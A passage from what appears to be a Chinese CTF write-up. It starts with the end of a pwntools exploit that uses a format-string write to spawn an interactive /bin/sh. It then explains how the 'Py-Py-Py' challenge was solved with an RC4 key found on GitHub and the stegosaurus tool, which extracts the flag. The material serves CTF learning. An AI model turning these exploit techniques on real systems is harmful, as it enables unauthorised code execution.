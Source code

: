 ```python
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+5)
cn.send(pay2)

raw_input()
cn.recvuntil('Code:')
cn.sendline('2')
cn.recvuntil("Name:\n")
cn.sendline("/bin/sh")
cn.recvuntil("Now!")
cn.interactive()
```



### Py-Py-Py

做了半天密码学，发现无解，然后在github上找到一模一样的代码：<https://github.com/zwhubuntu/CTF-chal-code/blob/master/rc4_al.py>

然后用这个代码中的密钥解出明文：`The challenge is Steganography`

PS: 这个脑洞这么大。。。竟然还有那么多人做出来了，感觉没有这一步的人都是py的

然后找到文章：<http://www.freebuf.com/sectool/129357.html>

直接

```shell
$ python3.6 stegosaurus.py -x pypypy.pyc
Flag{HiD3_Pal0ad_1n_Python}
```



### OldDriver
